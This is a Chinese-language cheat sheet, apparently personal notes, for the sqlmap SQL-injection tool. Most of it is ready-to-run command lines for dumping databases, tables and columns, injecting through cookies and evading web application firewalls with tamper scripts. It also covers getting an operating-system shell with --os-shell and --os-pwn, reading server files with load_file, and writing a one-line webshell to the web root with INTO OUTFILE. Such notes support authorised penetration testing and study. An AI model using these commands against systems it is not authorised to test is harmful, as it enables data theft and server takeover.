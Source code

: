 # Sqlmap

---

所有请求方式都能注入，默认是get/post,但是当使用--level参数>=2时，检查cookies，>=3时检查user-agent和referer、 --level 1 GET|2 cookies|3 POST

提示输入的选择，大写是回车默认选项

出现红色提示就是错误，建议加参数

版本：

```
python 版本，较简便，基础功能都有(https://github.com/sqlmapproject/sqlmap)

kali版本，较全面，可以msf联动
```

---

## 常用：

```
python sqlmap.py -u http://www.xxx.com/id=1 -p Id --random-agent --dbms mysql -proxy=http://127.0.0.1:10809 --threads=5 --dbs
```



---

sqlmap -u "http://URL/id=1"	

## 参数

```

--current-db 		#列出当前的数据库
 
--current-user		#列出当前的权限用户

--threads=线程数    #设置线程数，0~10

--delay 1           #延时1秒

--time-sec          #

--referer IP或域名  #设置访问来源

--is-dba  #查看当前数据库用户权限

--level 等级  （等级越高检测会越全面，总5级）

--dbms 数据库名 （指定数据库类型）

--batch   按照sqlmap的默认提示往下确认

--proxy http://localhost:8080 #代理

--random-agent

-p 参数名  #指定注入点参数，当有多个参数时使用 ,默认全部参数都测试注入

-r 文件名         #该文件是能注入的页面的抓·包

--charset=     #编码格式GBK、UTF-8

--dbs 			#列出服务器中所有的数据库

-D 库名 --tables 	#列出该库的所有表

-D 库名 -T 表名 --columns #列出库名的表名的所有字段名

-D 库名 -T 表名 -C "字段名" --dump #列出库名的表名的字段名的数据

-vv 显示详细操作如：使用的payload等

--identify-waf  #探测waf

--os-shell

4.0版本可以用

--os-pwn #获取操作系统的shell  ，需要依赖msf（建议在kali里使用）

--sql-query='sql语句'

--sql-shell               
# 文件读取
1.
select load_file('绝对路径') #查看后台登录页面判断登录的代码，找到用户名和密码的代入查询的字段名，和表名（注意，路径使用/，无论是windows还是linux，如要使用\ 就使用\\或者16进制,16进制就不用双引号）windows2003读取C:/windows/system32/inetarv/metabase.xml就可以查看到所有网站根目录
2.
select load data infile '绝对路径' into table user1;  #读取文件写入到user1表中
select * from user;  
select '一句话'INTO OUTFILE '/home/wwwroot/xxx’
需要和phpinfo配合，获取web绝对路径
--sql-query='sql语句'
3.mysql 5.x以上，sql连接是本地才可以执行
system cat 绝对路径 ;  #执行系统命令读取

```
当无法读取数据库表名

```
情况：
1.版本小于5.0的MySQL没有information_schema表
2.微软Access的MSysObjects表默认不可读
3.数据库用户权限过低无法读取表名

--common-tables  #爆破表名，爆破字典路径txt/common-tables.txt
--common-columns #爆破列名，爆破字典路径txt/common-columns.txt
```



指定注入类型：

```
--technique B
B : 基于Boolean的盲注（Boolean based blind）
Q : 内联查询（Inline queries）
T : 基于时间的盲注（time based blind）
U : 基于联合查询（Union query based）
E : 基于错误（error based）
S : 栈查询（stack queries）
```

---

## cookies注入：（等级2才有cookies注入检测）

sqlmap -u "URL/xxx.php" --cookie "id=n" --level 2 --dbms=mysql --dbs   #cookies注入mysql数据库，查看所有数据库

--cookie "id=n"  --level 2 -D 库名 --tables

--cookie "id=n"  --level 2 -D 库名 -T 表名 --columns

--cookie "id=n"  --level 2 -D 库名 -T 表名 -C "字段名" --dump

\-----------------------------

## temper

tamper（编写绕过规则）：进行绕过waf（防护规则，检测发包间隔）

sqlmap -u "http://URL/id=1" --tamper "xx.py"  

详细：默认tamper

```
http://www.91ri.org/7852.html
https://blog.csdn.net/admin18310911366/article/details/114061907
```

例子：

```
--tamper=between       # 绕过>过滤
--tamper=unmagicquotes # 宽字节注入
```

